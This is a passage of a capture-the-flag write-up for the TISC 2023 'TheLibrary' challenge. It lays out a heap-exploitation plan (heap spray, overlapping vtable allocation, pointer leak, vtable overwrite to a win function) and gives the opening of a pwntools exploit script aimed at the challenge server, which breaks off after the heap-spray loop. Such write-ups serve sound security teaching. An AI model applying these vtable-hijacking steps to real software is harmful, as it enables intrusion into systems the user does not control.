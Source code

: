 ...the library name and motto are stored contiguously in an allocation in `metadata_heap`. But it gets even better:
- When the program is initialised, this chunk always gets allocated at the start of `metadata_heap`.
- If the allocation fails, the function immediately returns and we can simply try again.
- 16 and 48 bytes are printed for the name and motto after we are done setting them, regardless of the actual length of our input.

What does this mean for us? Consider the following sequence of events:

1. Spam bookshelf allocations until the entire heap is full.
2. Free up a single chunk on the heap - we can do this by freeing the first bookshelf we allocated (since it's very likely this was allocated with no issues). Now there is exactly one free chunk in `metadata_heap`.
3. Create a CD stand for the first time. This will trigger heap allocations for both the CD stand vtable, as well as the CD stand itself (in that order). We hope that the allocation fails for the vtable, but succeeds for the CD stand. Now the vtable overlaps with chunk 0 on `metadata_heap`.

>Remark: with 591 of 592 allocations in-use, the probability that all 592 allocation attempts fail is $$(\tfrac{591}{592})^{592} \approx 0.367$$. Not too bad! (0x250 = 592)

4. Edit the library name and motto. This will be reallocated at chunk 0 again, since it is the only free chunk on `metadata_heap`. Set the name and motto to 1 byte each. Then we will leak the contents of the vtable that overlaps this allocation.
5. Using the leaked pointer, calculate the address of the win function.
6. Again, edit the library name and motto. This time, we overwrite one of the vtable pointers with the address of the win function.
7. Trigger the win function.

The code below implements this idea. I think the comments do a decent job of explaining what I am trying to accomplish.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./TheLibrary.elf")

context.binary = exe
context.log_level = "info"


def conn():
	if not args.REMOTE:
		p = process([exe.path])
	else:
		p = remote("chals.tisc23.ctf.sg", 26195)

	return p


def main():
	p = conn()
	
	p.sendlineafter(b"characters): ", b"A"*16)
	p.sendlineafter(b"characters): ", b"B"*48)
	
	# Let's spam a lot of bookshelves to fill up the metadata heap.
	p.sendlineafter(b"choice: ", b"2")
	for i in range(600):
		p.sendlineafter(b"option: ", b"1")
		p.sendlineafter(b"characters)", b"a")
		
	# Now we want to free a single valid chunk. It's pretty reasonable to assume that the first bookshelf we created was allocated correctly (p = 1 - 1/592^592 ≈ 1), so let's free that.
```